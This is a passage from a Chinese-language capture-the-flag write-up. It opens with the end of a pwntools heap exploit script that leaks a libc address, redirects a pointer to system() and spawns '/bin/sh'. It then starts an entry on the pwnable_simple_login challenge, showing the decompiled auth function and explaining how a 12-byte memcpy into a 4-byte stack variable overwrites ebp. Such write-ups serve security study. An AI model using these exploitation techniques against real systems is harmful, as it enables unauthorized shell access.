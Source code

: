 ```python



List()

p.recvuntil('0. ')

atoi_in_server=u64(p.recvuntil('\x0a')[:-1].ljust(8,'\x00'))
print(hex(atoi_in_server))

system_in_server=libc.symbols['system']+atoi_in_server-libc.symbols['free']




payload3=p64(system_in_server)

edit(0,payload3)

edit(1,"/bin/sh\x00")

delete(1)



p.interactive()

```

# 8月9日

## 1.pwnable_simple_login(栈溢出)

参考链接:https://www.dazhuanlan.com/dovetion/topics/997525

这个题比较贴合实际，和硬件漏洞差不多，就是一个登陆模块

他要求我们输入base64的数据然后去解base64再去比对，比对成功就给权限

但是其中比对函数auth里面涉及到md5，破解是不可能的

漏洞点在也这里

我们不难发现memcpy这里的input是可以覆盖v4的 v4大小8 input 12 input存放解密后的数据

memcpy函数就是把a1字符大小的input的内容给到v4

我们可以发现v4到bp寄存器大小刚好是4，8+4=12

```c
_BOOL4 __cdecl auth(int a1)
{
  char v2[8]; // [esp+14h] [ebp-14h] BYREF
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h] BYREF

  memcpy(&v4, &input, a1);
  s2 = (char *)calc_md5(v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```

